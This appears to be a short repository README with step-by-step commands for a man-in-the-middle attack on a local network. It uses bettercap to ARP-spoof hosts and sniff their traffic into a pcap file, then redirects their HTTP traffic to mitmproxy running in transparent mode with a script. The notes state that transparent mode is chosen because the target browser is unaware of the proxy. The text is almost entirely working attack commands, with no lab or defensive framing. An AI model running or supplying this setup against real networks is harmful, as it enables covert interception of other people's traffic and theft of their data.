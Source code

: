 How to set up mitmproxy with bettercap
======================================
Step 1: make sure desired port is unused (8080 in this context)
-----------------------------------------------
- mitmproxy will listen on this port

Step 2: run bettercap with following commands:
----------------------------------------------
```bettercap
set net.sniff.verbose true;
set net.sniff.output [FILENAME.pcap];
set arp.spoof.fullduplex true;
set arp.spoof internal true;
net.recon on;
net.probe on;
net.sniff on;
arp.spoof on;
```
- this will activate modules to let the arp.spoof module function
- after stopping the module net.sniff with ```net.sniff off```, it will write the traffic in FILENAME.pcap

Step 3: let bettercap redirect traffic to mitmproxy
---------------------------------------------------
```bettercap
set any.proxy.dst_port 8080;
set any.proxy.src_port 80;
any.proxy on
```

Step 4: run mitmproxy with following code:
------------------------------------------
```bash
sudo mitmproxy --mode transparent -p 8080 -s [SCRIPT.py]
```
* mitmproxy has to run in transparent mode because target browser is unaware of the proxy
    * normally, the browser knows if mitmproxy is listening and this requires manual setup on the browser side
    * transparent mode goes under the assumption that the browser isn't aware of it listening (necessary for intercepting)
* -s SCRIPT.py tells mitmproxy which python script to use
